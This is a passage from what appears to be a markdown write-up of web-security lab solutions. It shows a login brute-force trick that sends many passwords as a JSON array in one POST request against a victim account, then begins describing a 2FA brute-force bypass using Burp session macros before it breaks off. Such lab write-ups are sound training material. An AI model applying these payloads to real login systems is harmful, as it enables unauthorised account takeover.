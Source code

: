     - Now, Instead of brute-forcing password parameter, we put multiple password in one request.
     - and the request look like this..

           `POST /login HTTP/2
           Host: subdomain.target.com
           Cookie: session=Mz6UOlrW9EEiXBKa0rTbnfHdOHodZtSu
           Content-Length: 1581
           ...
           ...
           {
             "username":"carlos",
             "password":["123456",
               "password",
               "12345678",
               "qwerty",
               "123456789",
               "12345",
               "1234",
               "111111"
              ]
           }`

#### For this lab...
    
   - Go to login page and login with `test:test`, intercept the request
    - Now replace the value of `username` to victim's(carlos) username and
    - Replace the value of `password` to list of passwords, forward the request & get `302`, it look something like this...

          `{
          "username":"carlos",
          "password":[ "123456",
           "password",
           "12345678",
           ...
           ...
           ]
          }`

---

### 14) 2FA bypass using a brute-force attack -

1) There are multiple ways to bypass 2FA, but this is the case when application logged-out after multiple wrong attempts

2) To bypass this we use `Burp's session handling features` to log back in automatically before sending each request.

   - In Burp, go to `Project options > Sessions`. In the `Session Handling Rules panel`, click `Add`. The Session handling rule editor dialog opens.

   - In the dialog, go to the `Scope` tab. Under `URL Scope`, select the option Include `all URLs`.
Go back to the Details tab and under `Rule Actions`, click `Add > Run a macro.`
